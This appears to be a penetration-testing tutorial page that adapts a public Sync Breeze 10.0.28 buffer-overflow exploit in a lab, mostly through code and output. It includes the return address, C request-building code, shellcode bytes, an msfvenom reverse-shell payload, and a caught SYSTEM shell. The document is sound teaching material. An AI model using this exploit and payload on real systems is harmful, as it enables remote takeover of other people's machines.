




---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Memory Corruption Exploits

## Background

Details about what a buffer overflow is and how it works can be found in the [Buffer Overflows section](broken-reference).

Recall from there the general structure of a Buffer Overflow exploit:

1. Create a large buffer to trigger the overflow.
2. Take control of `EIP` by overwriting a return address on the stack, padding the large buffer with an appropriate offset.
3. Include a chosen payload in the buffer prepended by an optional [NOP sled](https://en.wikipedia.org/wiki/NOP\_slide).
4. Choose a correct return address instruction such as `JMP ESP` (or a different register) to redirect the execution flow to the payload.

Also remember, public exploits present an inherent danger because they often contain _hex-encoded_ payloads that must be reverse-engineered to determine how they function. Because of this, one must always review the payloads used in public exploits or better yet, insert a custom payload.

When a payload is created, the attacker will obviously include their own IP address and port numbers and may exclude certain bad characters, which can be determined independently or glean from the exploit comments.

Bad characters are _ASCII_ or _UNICODE_ characters that break the application when included in the payload because they might be interpreted as _control characters_. For example, the null-byte `\x00` is often interpreted as a string terminator and, if inserted in the payload, could prematurely truncate the attack buffer.

While generating one's own payload is advised whenever possible, there are exploits using custom payloads that are key to successfully compromising the vulnerable application. If this is the case, the only option is to reverse engineer the payload to determine how it functions and if it is safe to execute.

## Example

### Finding an Exploit

This example will target **Sync Breeze Enterprise 10.0.28** and focus on one of the two available exploits. This will provide a working exploit for the target environment and allow a walk through of the modification process.

An initial search of exploits for Sync Breeze yields 3 results:

```bash
kali@kali:~$ searchsploit "Sync Breeze Enterprise 10.0.28"
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Sync Breeze Enterprise 10.0.28 - Denial of-Service (PoC)                           | windows/dos/43200.py
Sync Breeze Enterprise 10.0.28 - Remote Buffer Overflow                            | windows/remote/42928.py
Sync Breeze Enterprise 10.0.28 - Remote Buffer Overflow (PoC)                      | windows/dos/42341.c
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

This example will leverage the one written in C (EDB-ID 42341). This exploit largely mirrors the Remote Buffer Overflow written in Python (EDB-ID 42928), but the C code serves as a better example of how to modify exploits. It can be copied to the current directory as follows:

```
kali@kali:~$ searchsploit -m 42341                             
  Exploit: Sync Breeze Enterprise 10.0.28 - Remote Buffer Overflow (PoC)
      URL: https://www.exploit-db.com/exploits/42341
     Path: /usr/share/exploitdb/exploits/windows/dos/42341.c
    Codes: N/A
 Verified: False
File Type: C source, Unicode text, UTF-8 text
Copied to: /home/kali/42341.c
```

The vulnerability is present in the HTTP server module where a buffer overflow condition is triggered on a POST request. The core functionality of the exploit script is summarized in the following lines:

```python
offset    = "A" * 780 
JMP_ESP   =  "\x83\x0c\x09\x10"
shellcode = "\x90"*16 + msf_shellcode
exploit   = offset + JMP_ESP + shellcode
```

* Please note these lines are not actually present in the exploit code for either `42341.c` or `42928.py`, rather they are just written to show the core concept of what is happening

At offset 780, the instruction pointer is overwritten with a `JMP ESP` instruction located at the memory address `0x10090c83`. Next, the shellcode is appended to 16 NOPs. Finally, the exploit buffer is included in the HTTP POST request and sent.

### Cross-Compiling the Exploit

[MinGW-w64](https://www.mingw-w64.org/) ([Documentation](https://sourceforge.net/p/mingw-w64/wiki2/Home/)) can be used to compile the exploit for this attack via the `i686-w64-mingw32-gcc` command. However one has to be aware of the libraries that will need to be linked. An initial attempt at compilation with no additional arguments fails:

```bash
kali@kali:~$ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe
/usr/bin/i686-w64-mingw32-ld: /tmp/cchs0xza.o:42341.c:(.text+0x97): undefined reference to `_imp__WSAStartup@8'
/usr/bin/i686-w64-mingw32-ld: /tmp/cchs0xza.o:42341.c:(.text+0xa5): undefined reference to `_imp__WSAGetLastError@0'
/usr/bin/i686-w64-mingw32-ld: /tmp/cchs0xza.o:42341.c:(.text+0xe9): undefined reference to `_imp__socket@12'
/usr/bin/i686-w64-mingw32-ld: /tmp/cchs0xza.o:42341.c:(.text+0xfc): undefined reference to `_imp__WSAGetLastError@0'
/usr/bin/i686-w64-mingw32-ld: /tmp/cchs0xza.o:42341.c:(.text+0x126): undefined reference to `_imp__inet_addr@4'
/usr/bin/i686-w64-mingw32-ld: /tmp/cchs0xza.o:42341.c:(.text+0x146): undefined reference to `_imp__htons@4'
/usr/bin/i686-w64-mingw32-ld: /tmp/cchs0xza.o:42341.c:(.text+0x16f): undefined reference to `_imp__connect@12'
/usr/bin/i686-w64-mingw32-ld: /tmp/cchs0xza.o:42341.c:(.text+0x1b8): undefined reference to `_imp__send@16'
/usr/bin/i686-w64-mingw32-ld: /tmp/cchs0xza.o:42341.c:(.text+0x1eb): undefined reference to `_imp__closesocket@4'
collect2: error: ld returned 1 exit status
```

A Google search for the first error related to "WSAStartup" reveals that this is a function found in `winsock.h`. Further research indicates that these errors occur when the linker cannot find the `winsock` library. A library can be added via the `-l` flag. In this case the `ws2_32` DLL is needed and thus `-l ws2_32` or `-lws2_32` (a space between the `-l` flag and the library name is optional) must be appended to the command:

```bash
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -l ws2_32
```

This command will result in successful compilation:

```bash
kali@kali:~$ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32

kali@kali:~$ ls -lah
total 372K
drwxr-xr-x  2 root root 4.0K Feb 24 17:13 .
drwxr-xr-x 17 root root 4.0K Feb 24 15:42 ..
-rw-r--r--  1 root root 4.7K Feb 24 15:46 42341.c
-rwxr-xr-x  1 root root 355K Feb 24 17:13 syncbreeze_exploit.exe
```

The exploit can now be run from a Linux machine via [`wine`](https://www.winehq.org/):

```
kali@kali:~$ wine syncbreeze_exploit.exe  

[>] Initialising Winsock...
[>] Initialised.
[>] Socket created.
...
```

While the exploit "works" in the sense that it is a valid executable that can be run, it does not actually exploit the target. There are several reasons for this, first among them is that the target IP address and port are hard-coded into the source code. This along with several other pieces must be updated for the current scenario.

### Fixing the Exploit

Fixing, or customizing, the exploit will begin with examining the source code more carefully. Since sometimes it will be helpful to launch a debugger as a privileged user and then examine the code while it is running, the best way to go about all of this is to get a copy of the vulnerable application and try to set it up in a sandbox environment to examine it at work.

#### Return Address

The return address for the `JMP` instruction is hard-coded in the exploit code:

```c
unsigned char retn[] = "\xcb\x75\x52\x73"; // 0x735275cb - ret at msvbvm60.dll
```

* Note the bytes are reversed because Intel chips use [little-endian](https://en.wikipedia.org/wiki/Endianness) addressing

The comment notes that this is an address in `msvbvm60.dll`. Unfortunately this causes a bit of an issue in the current example. Assuming the attacker is able to load a copy of the .exe in a debugger on their own machine, they will find that this particular version is missing that particular DLL:


This means that **the exploit's return address will need to be overwritten**. Locating an address to use for the `JMP` can be challenging. As a general rule, one should not rely on hard-coded JMP ESP addresses coming from system DLLs, since these are all randomized at boot time due to ASLR. Instead, one should try to find these instructions in non-ASLR modules inside the vulnerable application whenever possible.

One could also obtain a return address directly from the target machine. If they have access to the target as an unprivileged user and want to run an exploit that will elevate privileges, they can copy the DLLs that we are interested in onto the attack machine. It is then possible to leverage various tools, such as disassemblers like [objdump](https://man7.org/linux/man-pages/man1/objdump.1.html).

If it not possible to obtain it from the target, one other method is exploring publicly available exploits for the target system/application. Recall from [earlier](memory-corruption-exploits.md#finding-an-exploit) there were actually 2 remote exploits for this application, 42341 (C) and 42928 (Python). Examining the Python exploit reveals a different return address:

```python
crash = "A" * 780 + "\x83\x0c\x09\x10" + "\x90"*16 + buf # 0x10090c83
```

For the purposes of this example, that address will work. This simplifies the process of finding the return address. Overwrite the return address in the original C code as follows:

```c
unsigned char retn[] = "\x83\x0c\x09\x10"; // 0x10090c83
```

Take a moment to consider how and why this works. Using Immunity Debugger to see the program running, the attacker can go to the memory address in question and see what is there. It turns out it is a `JMP ESP` command:

<figure><figcaption><p>JMP ESP command at found return address</p></figcaption></figure>

A JMP ESP command causes the program to jump to the address held in the `ESP` (stack pointer) register. The attack will work as follows:

1. The program allocates a buffer on the stack to hold the username and password input at login, but the size of the input is not checked
2. The attacker will submit a larger buffer filled with A's to fill the entire space allocated. The goal is to create a buffer that is exactly large enough so that the A's fill the stack to the point just before the return address of the function and then the shellcode is placed after that so the buffer looks like
   1. A's (enough to reach function return address)
   2. `0x10090c83` to cause the function to "return" to the JMP ESP instruction
   3. Shellcode (pointed to by `ESP` after function return)
3. The return address is overwritten with the address of the JMP ESP instruction
4. The JMP ESP instruction causes the program to jump into executing instructions on the stack which is the payload.

The technique is explained in more depth [here](https://the-dark-lord.medium.com/exploit-research-the-jmp-esp-2264f5930aea). Their incredibly drawn diagram of the stack as it's overflowed is quite helpful:

<figure><figcaption><p>Structure of the overflowed stack</p></figcaption></figure>

Stack grows top-down so the buffer was allocated in a space before (above) the diagram starts. The goal is to fill that buffer exactly to the return instruction (yellow) which leads to a JMP ESP instruction causing the program to come back to the stack and execute the shellcode.

#### Correcting the IP

Examination shows that the target IP address is hard-coded into the exploit in 2 locations: lines 36 and 60 of the original source code. The target port is also hard-coded at line 38. All lines are shown below (with intervening irrelevant lines removed):

```
    server.sin_addr.s_addr = inet_addr("172.16.116.222");
    ...
    server.sin_port = htons(8080);
    ...
    char request_one[] = "POST /login HTTP/1.1\r\n"
                        "Host: 172.16.116.222\r\n"
                        "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"    
```

The IP address can either be overwritten with the correct one, or a string variable can be created and referenced in each location. I wrote a C library called `stringops` (in this instance the compiled file is `libstringops.dll.a`) and included a string formatting function. Therefore the IP can be updated as follows:

```c
void EvilRequest(char* victim_ip) {

    // Create first request
    char request_one_base[] = "POST /login HTTP/1.1\r\n"
                        "Host: %s\r\n"
                        "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
                        "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
                        "Accept-Language: en-US,en;q=0.5\r\n"
                        "Referer: http://%s/login\r\n"
                        "Connection: close\r\n"
                        "Content-Type: application/x-www-form-urlencoded\r\n"
                        "Content-Length: ";

    char* request_one = FormatString(request_one_base, victim_ip, victim_ip);
```

`FormatString()` is implemented in the library as follows:

```c
/**
 * Formats a string (fmt) using C string formatting
 *  Designed to mimic C#'s string.format() 
 */
char* FormatString(const char *fmt, ...)
{
    va_list args, args_copy;    // Declare va_list variables to manage the variable arguments
    va_start(args, fmt);        // Initialize va_list 'args' to start at the argument after 'fmt'
    
    /**
     * A copy of args is needed because vsnprintf() is called twice (to determine size then copy)
     * and there is no safe way to reuse a va_list object so each call needs its own copy.
     *  This is according to ChatGPT
     */
    va_copy(args_copy, args);

    size_t fmt_size = vsnprintf(NULL, 0, fmt, args_copy);   // Determine size of buffer

    if (fmt_size > 0) {
        size_t buf_size = (fmt_size + 1) * sizeof(char);    // Calculate buffer size
        char* formatted = (char *)malloc(buf_size);         // Allocate buffer on stack

        if (formatted != NULL) {

            vsprintf(formatted, fmt, args); // Format the string and save it in the buffer
            va_end(args);                   // Cleanup the va_list 'args' after processing
            return formatted;               // Return buffer

        } else {

            // Writes failure message to stderr and exits
            fprintf(stderr, "Memory allocation for formatted string failed");
            exit(EXIT_FAILURE);
        }
        

    } else { return NULL; } // Returns NULL if nothing to format
}
```

The IP address and port are also needed in the SendRequest() method of the exploit that actually does the networking. It is hard-coded there again:

```c
DWORD SendRequest(char *request, int request_size) {
    ...
    server.sin_addr.s_addr = inet_addr("172.16.116.222");
    server.sin_family = AF_INET;
    server.sin_port = htons(8080);
    ...
}
```

The easiest way to correct that is to just pass it as an argument instead. Then a single string can hold the IP in main and it can be passed into the functions:

<pre class="language-c"><code class="lang-c">void EvilRequest(const char*, const int);
DWORD SendRequest(char*, int, const char*, const int);
<strong>
</strong><strong>int main() {
</strong>    char* target_ip = "192.168.203.52";
    int target_port = 8080;

    EvilRequest(target_ip, target_port);
    return 0;
}

DWORD SendRequest(char *request, int request_size, const char* victim_ip, const int victim_port) {
    ...
    server.sin_addr.s_addr = inet_addr(victim_ip);
    server.sin_family = AF_INET;
    server.sin_port = htons(victim_port);
    ...
}

void EvilRequest(const char* victim_ip, const int victim_port) {
    ...
    SendRequest(buffer, strlen(buffer), victim_ip, victim_port);
    ...
}
</code></pre>

At this point all the networking information can be provided by just updating one location rather than multiple throughout the source code.

### Customizing the Payload

Continuing the analysis of the source code, the `shellcode` variable seems to hold the payload. Since it is stored as hex bytes, one cannot easily determine its purpose. The only hint given by the author refers to a [NOP slide](https://en.wikipedia.org/wiki/NOP\_slide) that is part of the `shellcode` variable:

```c
unsigned char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" // NOP SLIDE
"\xdb\xda\xbd\x92\xbc\xaf\xa7\xd9\x74\x24\xf4\x58\x31\xc9\xb1"
"\x52\x31\x68\x17\x83\xc0\x04\x03\xfa\xaf\x4d\x52\x06\x27\x13"
"\x9d\xf6\xb8\x74\x17\x13\x89\xb4\x43\x50\xba\x04\x07\x34\x37"
"\xee\x45\xac\xcc\x82\x41\xc3\x65\x28\xb4\xea\x76\x01\x84\x6d"
"\xf5\x58\xd9\x4d\xc4\x92\x2c\x8c\x01\xce\xdd\xdc\xda\x84\x70"
"\xf0\x6f\xd0\x48\x7b\x23\xf4\xc8\x98\xf4\xf7\xf9\x0f\x8e\xa1"
"\xd9\xae\x43\xda\x53\xa8\x80\xe7\x2a\x43\x72\x93\xac\x85\x4a"
"\x5c\x02\xe8\x62\xaf\x5a\x2d\x44\x50\x29\x47\xb6\xed\x2a\x9c"
"\xc4\x29\xbe\x06\x6e\xb9\x18\xe2\x8e\x6e\xfe\x61\x9c\xdb\x74"
"\x2d\x81\xda\x59\x46\xbd\x57\x5c\x88\x37\x23\x7b\x0c\x13\xf7"
"\xe2\x15\xf9\x56\x1a\x45\xa2\x07\xbe\x0e\x4f\x53\xb3\x4d\x18"
"\x90\xfe\x6d\xd8\xbe\x89\x1e\xea\x61\x22\x88\x46\xe9\xec\x4f"
"\xa8\xc0\x49\xdf\x57\xeb\xa9\xf6\x93\xbf\xf9\x60\x35\xc0\x91"
"\x70\xba\x15\x35\x20\x14\xc6\xf6\x90\xd4\xb6\x9e\xfa\xda\xe9"
"\xbf\x05\x31\x82\x2a\xfc\xd2\x01\xba\x8a\xef\x32\xb9\x72\xe1"
"\x9e\x34\x94\x6b\x0f\x11\x0f\x04\xb6\x38\xdb\xb5\x37\x97\xa6"
"\xf6\xbc\x14\x57\xb8\x34\x50\x4b\x2d\xb5\x2f\x31\xf8\xca\x85"
"\x5d\x66\x58\x42\x9d\xe1\x41\xdd\xca\xa6\xb4\x14\x9e\x5a\xee"
"\x8e\xbc\xa6\x76\xe8\x04\x7d\x4b\xf7\x85\xf0\xf7\xd3\x95\xcc"
"\xf8\x5f\xc1\x80\xae\x09\xbf\x66\x19\xf8\x69\x31\xf6\x52\xfd"
"\xc4\x34\x65\x7b\xc9\x10\x13\x63\x78\xcd\x62\x9c\xb5\x99\x62"
"\xe5\xab\x39\x8c\x3c\x68\x59\x6f\x94\x85\xf2\x36\x7d\x24\x9f"
"\xc8\xa8\x6b\xa6\x4a\x58\x14\x5d\x52\x29\x11\x19\xd4\xc2\x6b"
"\x32\xb1\xe4\xd8\x33\x90";
```

Since it is unknown what this does, it is better to replace it with a custom payload. Normally one would have to determine the "[bad characters](../../../buffer-overflows/windows-buffer-overflow/placing-shellcode.md#checking-for-bad-characters)" that would break the processing of the string. Fortunately, whoever wrote the Python exploit has already done that and has included them in a comment:

```python
# bad char = 00 0A 0D 25 26 2B 3D
```

That means that the attacker can just proceed directly to creating a new payload with following `msfvenom` command:


```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$rev_ip LPORT=$rev_port EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```


* `windows/shell_reverse_tcp` specifies that the payload should be a Windows-compatible reverse shell
* `$rev_ip` and `$rev_port` are the IP address and port of the listening reverse shell catcher (on attacker's machine)
* `-e` specifies the encoder which is targeted to x86 in this case (`x86/shikata_ga_nai`)
* `-b` specifies the bad characters that should be avoided (taken from the Python exploit)
* `-f` specifies the format
  * `c` is the C language
  * To see a list of formats use `msfvenom --help-formats` (or `msfvenom --list formats`)
* `EXITFUNC` sets a function hash in the payload that specifies a DLL and function to call when the payload is complete.
  * Can be `none`, `seh`, `thread`, or `process`
  * `thread` runs the shellcode in a sub-thread and exiting this thread results in a working application/system (clean exit)

When run, the command returns a new payload:

```bash
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=$rev_ip LPORT=$rev_port EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 12 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1506 bytes
unsigned char buf[] = 
"\xbb\xcf\x2f\xa1\xd4\xd9\xe9\xd9\x74\x24\xf4\x5d\x29\xc9"
"\xb1\x52\x83\xc5\x04\x31\x5d\x0e\x03\x92\x21\x43\x21\xd0"
"\xd6\x01\xca\x28\x27\x66\x42\xcd\x16\xa6\x30\x86\x09\x16"
"\x32\xca\xa5\xdd\x16\xfe\x3e\x93\xbe\xf1\xf7\x1e\x99\x3c"
"\x07\x32\xd9\x5f\x8b\x49\x0e\xbf\xb2\x81\x43\xbe\xf3\xfc"
"\xae\x92\xac\x8b\x1d\x02\xd8\xc6\x9d\xa9\x92\xc7\xa5\x4e"
"\x62\xe9\x84\xc1\xf8\xb0\x06\xe0\x2d\xc9\x0e\xfa\x32\xf4"
"\xd9\x71\x80\x82\xdb\x53\xd8\x6b\x77\x9a\xd4\x99\x89\xdb"
"\xd3\x41\xfc\x15\x20\xff\x07\xe2\x5a\xdb\x82\xf0\xfd\xa8"
"\x35\xdc\xfc\x7d\xa3\x97\xf3\xca\xa7\xff\x17\xcc\x64\x74"
"\x23\x45\x8b\x5a\xa5\x1d\xa8\x7e\xed\xc6\xd1\x27\x4b\xa8"
"\xee\x37\x34\x15\x4b\x3c\xd9\x42\xe6\x1f\xb6\xa7\xcb\x9f"
"\x46\xa0\x5c\xec\x74\x6f\xf7\x7a\x35\xf8\xd1\x7d\x3a\xd3"
"\xa6\x11\xc5\xdc\xd6\x38\x02\x88\x86\x52\xa3\xb1\x4c\xa2"
"\x4c\x64\xc2\xf2\xe2\xd7\xa3\xa2\x42\x88\x4b\xa8\x4c\xf7"
"\x6c\xd3\x86\x90\x07\x2e\x41\x5f\x7f\x1d\x5a\x37\x82\x5d"
"\x43\x88\x0b\xbb\x11\x18\x5a\x14\x8e\x81\xc7\xee\x2f\x4d"
"\xd2\x8b\x70\xc5\xd1\x6c\x3e\x2e\x9f\x7e\xd7\xde\xea\xdc"
"\x7e\xe0\xc0\x48\x1c\x73\x8f\x88\x6b\x68\x18\xdf\x3c\x5e"
"\x51\xb5\xd0\xf9\xcb\xab\x28\x9f\x34\x6f\xf7\x5c\xba\x6e"
"\x7a\xd8\x98\x60\x42\xe1\xa4\xd4\x1a\xb4\x72\x82\xdc\x6e"
"\x35\x7c\xb7\xdd\x9f\xe8\x4e\x2e\x20\x6e\x4f\x7b\xd6\x8e"
"\xfe\xd2\xaf\xb1\xcf\xb2\x27\xca\x2d\x23\xc7\x01\xf6\x43"
"\x2a\x83\x03\xec\xf3\x46\xae\x71\x04\xbd\xed\x8f\x87\x37"
"\x8e\x6b\x97\x32\x8b\x30\x1f\xaf\xe1\x29\xca\xcf\x56\x49"
"\xdf";
```

This can then be substituted into the exploit code. The NOP slide from the original example should be preserved and this payload added after:

```c
unsigned char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" // NOP SLIDE
"\xbb\xcf\x2f\xa1\xd4\xd9\xe9\xd9\x74\x24\xf4\x5d\x29\xc9"
"\xb1\x52\x83\xc5\x04\x31\x5d\x0e\x03\x92\x21\x43\x21\xd0"
"\xd6\x01\xca\x28\x27\x66\x42\xcd\x16\xa6\x30\x86\x09\x16"
"\x32\xca\xa5\xdd\x16\xfe\x3e\x93\xbe\xf1\xf7\x1e\x99\x3c"
"\x07\x32\xd9\x5f\x8b\x49\x0e\xbf\xb2\x81\x43\xbe\xf3\xfc"
"\xae\x92\xac\x8b\x1d\x02\xd8\xc6\x9d\xa9\x92\xc7\xa5\x4e"
"\x62\xe9\x84\xc1\xf8\xb0\x06\xe0\x2d\xc9\x0e\xfa\x32\xf4"
"\xd9\x71\x80\x82\xdb\x53\xd8\x6b\x77\x9a\xd4\x99\x89\xdb"
"\xd3\x41\xfc\x15\x20\xff\x07\xe2\x5a\xdb\x82\xf0\xfd\xa8"
"\x35\xdc\xfc\x7d\xa3\x97\xf3\xca\xa7\xff\x17\xcc\x64\x74"
"\x23\x45\x8b\x5a\xa5\x1d\xa8\x7e\xed\xc6\xd1\x27\x4b\xa8"
"\xee\x37\x34\x15\x4b\x3c\xd9\x42\xe6\x1f\xb6\xa7\xcb\x9f"
"\x46\xa0\x5c\xec\x74\x6f\xf7\x7a\x35\xf8\xd1\x7d\x3a\xd3"
"\xa6\x11\xc5\xdc\xd6\x38\x02\x88\x86\x52\xa3\xb1\x4c\xa2"
"\x4c\x64\xc2\xf2\xe2\xd7\xa3\xa2\x42\x88\x4b\xa8\x4c\xf7"
"\x6c\xd3\x86\x90\x07\x2e\x41\x5f\x7f\x1d\x5a\x37\x82\x5d"
"\x43\x88\x0b\xbb\x11\x18\x5a\x14\x8e\x81\xc7\xee\x2f\x4d"
"\xd2\x8b\x70\xc5\xd1\x6c\x3e\x2e\x9f\x7e\xd7\xde\xea\xdc"
"\x7e\xe0\xc0\x48\x1c\x73\x8f\x88\x6b\x68\x18\xdf\x3c\x5e"
"\x51\xb5\xd0\xf9\xcb\xab\x28\x9f\x34\x6f\xf7\x5c\xba\x6e"
"\x7a\xd8\x98\x60\x42\xe1\xa4\xd4\x1a\xb4\x72\x82\xdc\x6e"
"\x35\x7c\xb7\xdd\x9f\xe8\x4e\x2e\x20\x6e\x4f\x7b\xd6\x8e"
"\xfe\xd2\xaf\xb1\xcf\xb2\x27\xca\x2d\x23\xc7\x01\xf6\x43"
"\x2a\x83\x03\xec\xf3\x46\xae\x71\x04\xbd\xed\x8f\x87\x37"
"\x8e\x6b\x97\x32\x8b\x30\x1f\xaf\xe1\x29\xca\xcf\x56\x49"
"\xdf";
```

With all of this done, it would seem it is time to launch the exploit. For the purposes of demonstration it will be launched against an observable system. After navigating to the example target and launching Immunity Debugger, the attacker can set a breakpoint at the intended address (`0x10090c83`). Once the breakpoint is set, the attacker can launch the exploit:

```bash
kali@kali:~$ sudo wine bin/syncbreeze_exploit.exe
MESA-INTEL: warning: Haswell Vulkan support is incomplete
Target IP:      192.168.241.10
Target Port:    80

[>] Initialising Winsock...
[>] Initialised.
[>] Socket created.
[>] Connected

[>] Request sent
```

Navigating to the target machine, the attacker would expect to see Immunity Debugger stopped at their breakpoint (at the return address from the exploit), but instead it seems that application has crashed and `EIP` is overwritten with `0x9010090C`:

<figure><figcaption><p>Crashed application with incorrect EIP</p></figcaption></figure>

To understand what happened will take some examination. Recall that the goal was to use a `JMP ESP` instruction that is located at the target address . This instruction causes the program to jump to what ever address is held in `ESP` (stack pointer) and in this instance start executing the shellcode the attacker placed on the stack (pointed to by `ESP`). It seems where this went awry is that the return address is misaligned across the stack.

<figure><figcaption><p>The return address misaligned across the stack</p></figcaption></figure>

Looking at what is in `EIP` and matching it to what is on the stack it is possible to see that the intended address "wraps" around a byte on the stack which caused the wrong address to be popped off the stack and loaded into `EIP` (instead of the desired address of the `JMP ESP` instruction to have the program jump back into the stack) causing a crash. The second line in the lower red box of the screenshot matches the `EIP` address indicating this is what was read. The line above (before it on the stack) contains the `0x83` byte that was supposed to be part of the address on the next line.

#### Changing the Buffer Overflow

In order for this to work the program must pull the correct address (`0x10090c83`) off the stack which will require it to be aligned properly across the stack. Examining the screenshot above leads to a fairly intuitive solution. The attacker needs to arrange for the `0x83` byte to be placed on the next "line" of the stack. To understand how that works the construction of the overflow string for the buffer must be examined.


```c
int initial_buffer_size = 780;
char *padding = malloc(initial_buffer_size);
memset(padding, 0x41, initial_buffer_size);
memset(padding + initial_buffer_size - 1, 0x00, 1);

char* request_one = FormatString(request_one_base, victim_ip, victim_ip);

char request_two[] = "\r\n\r\nusername=";

...

unsigned char retn[] = "\x83\x0c\x09\x10";  // 0x10090c83 - from EDB-ID 42928

unsigned char shellcode[] = ...

char request_three[] = "&password=A";

int content_length = 9 + strlen(padding) + strlen(retn) + strlen(shellcode) + strlen(request_three);
char *content_length_string = malloc(15);
sprintf(content_length_string, "%d", content_length);
int buffer_length = strlen(request_one) + strlen(content_length_string) + initial_buffer_size + strlen(retn) + strlen(request_two) + strlen(shellcode) + strlen(request_three);

char *buffer = malloc(buffer_length);
memset(buffer, 0x00, buffer_length);
strcpy(buffer, request_one);
strcat(buffer, content_length_string);
strcat(buffer, request_two);
strcat(buffer, padding);
strcat(buffer, retn);
strcat(buffer, shellcode);
strcat(buffer, request_three);
```


* `request_one` contains the HTTP header (see above)

The initial `memset()` calls (lines 3 & 4) create a 780 byte buffer (`padding`) with 779 A's (`0x41`) and terminated in a null byte (`0x00`). When padding is copied into the buffer via `strcat()` (line 29) this causes an issue. `strcpy()` and `strcat()` both search for the null terminator (`0x00`) to know when to stop copying/concatenating. The function is finding 779 A's and a null terminator. This means only 779 bytes are copied instead of the expected 780. This is the cause of the misalignment. Fortunately, fixing this is easy. Simply increase the initial allocation for `padding` by 1:

```c
int initial_buffer_size = 780 + 1;  // 780 is the required size, + 1 for the null terminator
char *padding = malloc(initial_buffer_size);
memset(padding, 0x41, initial_buffer_size);         // Fill padding with A's
memset(padding + initial_buffer_size - 1, 0x00, 1); // Overwrite last byte with null byte
unsigned char retn[] = "\x83\x0c\x09\x10";          // 0x10090c83 - from EDB-ID 42928
```

This will create a `padding` with 780 A's and a null terminator. When it is copied into `buffer` it will be the expected size and the return address will be aligned across the stack correctly.

Remake the file, and send it against the target:

```bash
kali@kali:~$ make
i686-w64-mingw32-gcc -I./include ./src/fixedExploit.c ./lib/libstringops_w32.dll.a -lws2_32 -o ./bin/syncbreeze_exploit.exe
                                                                                                                     
kali@kali:~$ sudo wine bin/syncbreeze_exploit.exe
MESA-INTEL: warning: Haswell Vulkan support is incomplete
Target IP:      192.168.197.10
Target Port:    80


[>] Initialising Winsock...
[>] Initialised.
[>] Socket created.
[>] Connected
[>] Request sent
```

Checking the Netcat listener for catching the reverse shell shows it was indeed successful (note the match of the target IP from the exploit and the IP address of the `Ehternet0` adapter on the caught shell):

```bash
kali@kali:~$ rlwrap nc -lvnp 8000
listening on [any] 8000 ...
connect to [192.168.45.203] from (UNKNOWN) [192.168.197.10] 49791
Microsoft Windows [Version 10.0.16299.15]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>ipconfig /all

...
Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
